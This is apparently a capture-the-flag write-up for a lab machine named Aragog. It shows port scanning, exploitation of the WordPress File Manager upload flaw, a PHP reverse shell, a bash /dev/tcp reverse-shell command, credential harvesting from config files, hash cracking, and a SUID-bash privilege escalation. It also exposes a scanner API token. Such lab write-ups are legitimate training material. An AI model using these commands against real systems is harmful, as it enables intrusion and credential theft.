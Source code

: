 ```yaml
---
{"dg-publish":true,"permalink":"/machines/aragorn-writeup/","noteIcon":""}
---
```


Aragorn

# Enumeration

```bash

┌──(root㉿kali)-[/home/kali]
└─# nmap -sS --min-rate=5000 -Pn -n -p- -sC 192.168.0.109 -T5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-15 10:31 EST
Nmap scan report for 192.168.0.109
Host is up (0.0034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http

```

Seems port 80 is open.
Apache.
```bash
┌──(root㉿kali)-[/home/kali]
└─# whatweb 192.168.0.109
http://192.168.0.109 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.0.109]


```
![Pasted image 20240115093602.png](/img/user/Pasted%20image%2020240115093602.png)
```bash


┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u 192.168.0.109 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.109
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 313] [--> http://192.168.0.109/blog/]


```

http://wordpress.aragog.hogwarts/blog/wp-login.php

![Pasted image 20240115094047.png](/img/user/Pasted%20image%2020240115094047.png)

modified etc hosts to view the site properly
![Pasted image 20240115093809.png](/img/user/Pasted%20image%2020240115093809.png)

![Pasted image 20240115094100.png](/img/user/Pasted%20image%2020240115094100.png)



```bash```

Found the following vulnerable to RCE. 

```bash


┌──(root㉿kali)-[/home/kali]
└─# wpscan --url http://192.168.0.109/blog/  --api-token=espLHYxFTagBd85qWJ4HKIlsklJIJUkORyn8712A7Eo --enumerate u,vp --plugins-detection aggressive | grep RCE  -A 7
 | [!] Title: File Manager 6.0-6.9 - Unauthenticated Arbitrary File Upload leading to RCE
 |     Fixed in: 6.9
 |     References:
 |      - https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213
 |      - https://blog.nintechnet.com/critical-zero-day-vulnerability-fixed-in-wordpress-file-manager-700000-installations/
 |      - https://www.wordfence.com/blog/2020/09/700000-wordpress-users-affected-by-zero-day-vulnerability-in-file-manager-plugin/
 |      - https://seravo.com/blog/0-day-vulnerability-in-wp-file-manager/



```
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php

                                                                                                                 
┌──(root㉿kali)-[~kali/Downloads]
└─# python3 2020-wp-file-manager-v67.py http://wordpress.aragog.hogwarts/blog 
Just do it... URL: http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
200
Success!?
http://wordpress.aragog.hogwarts/blog/blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php



sent  a php reverse shell


┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.0.112] from (UNKNOWN) [192.168.0.109] 51862
Linux Aragog 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 21:25:27 up 34 min,  0 users,  load average: 0.08, 0.03, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ^@


www-data@Aragog:/$ grep -RE "DB_USER|DB_PASSWORD" /etc/ 2>/dev/null
/etc/wordpress/config-default.php:define('DB_USER', 'root');
/etc/wordpress/config-default.php:define('DB_PASSWORD', 'mySecr3tPass');
www-data@Aragog:/$ 










s$  data@Aragog:/usr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files
s$ mysql -u root -pr/share/wordpress/wp-content/plugins/wp-file-manager/lib/files
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use database wordpress;
ERROR 1049 (42000): Unknown database 'database'
MariaDB [(none)]> use  wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show * from wp_users
    -> ;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '* from wp_users' at line 1
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email               | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | hagrid98   | $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. | wp-admin      | hagrid98@localhost.local |          | 2021-03-31 14:21:02 |                     |           0 | WP-Admin     |
+----+------------+------------------------------------+---------------+--------------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.000 sec)

MariaDB [wordpress]>


```

$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.
```



──(kali㉿kali)-[~]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2024-01-15 12:04) 14.28g/s 20571p/s 20571c/s 20571C/s 753951..michel
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ john hash --show                                     
?:password123

1 password hash cracked, 0 left
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat hash           
$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.
                                                                                                                                                                                                                                            
┌──(kali㉿


bash -c "bash -i >%26 /dev/tcp/192.168.0.111/1234 0>%261"



hagrid98@Aragog:~$ cat horcrux1.txt
horcrux_{MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==}

2024/01/16 15:22:01 CMD: UID=0     PID=880    | /bin/sh -c bash -c "/opt/.backup.sh"




2024/01/16 15:22:01 CMD: UID=0     PID=880    | /bin/sh -c bash -c "/opt/.backup.sh"
2024/01/16 15:22:01 CMD: UID=0     PID=881    | /bin/bash /opt/.backup.sh


hagrid98@Aragog:/opt$ watch ls -liahr /bin/bash
hagrid98@Aragog:/opt$ bash -p
bash-5.0# whoami
root
bash-5.0#


hagrid98@Aragog:/opt$ ls -liahr
total 12K
267173 -rwxr-xr-x  1 hagrid98 hagrid98   81 Apr  1  2021 .backup.sh




hagrid98@Aragog:/opt$ cat .backup.sh
#!/bin/bash
chmod +s /bin/bash
cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
hagrid98@Aragog:/opt$


---------



Here is your second hocrux: horcrux_{MjogbWFSdm9MbyBHYVVudCdzIHJpTmcgZGVTdHJPeWVkIGJZIERVbWJsZWRPcmU=}


-------
